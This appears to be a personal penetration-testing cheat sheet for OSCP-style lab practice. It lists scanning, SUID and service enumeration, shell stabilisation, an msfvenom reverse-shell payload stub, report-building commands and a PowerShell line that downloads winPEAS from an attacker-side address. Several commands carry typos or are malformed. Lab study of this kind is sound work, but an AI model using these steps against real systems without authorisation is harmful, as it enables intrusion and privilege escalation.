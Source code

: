 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A10.10.43.161 -oA Services

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Pictures
- strings
- exiftool

## Convert python
dos2unix file

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Payloads
- msfvenom - reverse -f aspx -o app.aspx

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs

### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name


```
docker exec 7b4294cce723 pandoc FOLDER/OSCP_Report_REPORT_THM.md \
-o OSCP_Report_REPORT_THM.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style pygments \
--resource-path=.:src


docker exec 7b4294cce723 pandoc OSCP_Report_Steel_Mountail_THM.md \
-o OSCP_Report_REPORT_THM.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style pygments \
--resource-path=.:src


- Docker remove all images
  - docker rmi $(docker images --filter "dangling=true" -q --no-trunc)
  - docker rmi $(docker images -q) -f
  - docker rm $(docker ps -a -q)
  - docker system prune
```

powershell -c Invoke-Webrequest -OutFile winPeas.bat http://10.9.1.255/winPEAS.ps1